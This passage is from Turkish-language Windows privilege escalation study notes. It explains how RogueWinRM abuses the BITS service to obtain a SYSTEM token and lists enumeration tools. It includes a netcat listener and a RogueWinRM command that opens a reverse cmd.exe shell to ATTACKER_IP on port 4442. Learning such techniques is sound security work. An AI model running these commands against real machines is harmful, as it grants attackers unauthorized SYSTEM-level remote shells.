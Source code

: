 1. Kullanıcıların bağlanıp bağlanıp oturum açabileceği bir process oluşturmak.
2. Yetkili kullanıcıların bu zararlı process'e bağlanıp oturum açmaya zorlamanın yolunu bulmak.


Bunun için RogueWinRM aracı kullanılabilir. Bu araç 5985 portunu dinler. Herhangi bir kullanıcı (buna yetkisiz kullanıcılar da dahil) BITS servisi başlattığında, bu servis otomatik olarak 5985 portu ile SYSTEM yetkileri ile bağlantı kurar. 5985 ise genel olarak WinRM servisinin kullanıldığı porttur. WinRM'i ssh'ın powershell hali gibi düşünebiliriz. 

Önce attacker olarak bir portu dinlemeye başlarız
```shell-session
nc -lvp 4442
```

Sonra hedef makinede aşağıdaki gibi bir komut çalıştırırız
```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

Buradan sonra BITS servisi RogueWinRM’in açtığı sahte WinRM servisine bağlanır; RogueWinRM gelen SSPI/NTLM oturumunu `AcceptSecurityContext` ile kabul edip server tarafında bir security context oluşturur, sonra `ImpersonateSecurityContext` ile o context üzerinden impersonation yapar — işletim sistemi bu bağlam için bir security token verir ve bu token duplicate edilip (`DuplicateTokenEx`) `CreateProcessWithTokenW` ile SYSTEM bağlamında process başlatılabilir.

## Kullanılabilecek Toollar

- WinPEAS
- PrivescCheck
- WES-NG: Windows Exploit Suggester - Next Generation
- Metasploit: multi/recon/local_exploit_suggester

### Zafiyetli Yazılımlar

Bazı yazılım sürümlerinde yetki yükseltme zafiyetleri olabilir. Sistemde yüklü yazılımların sürümlerini kontrol etmek için:
```shell-session
wmic product get name,version,vendor
```
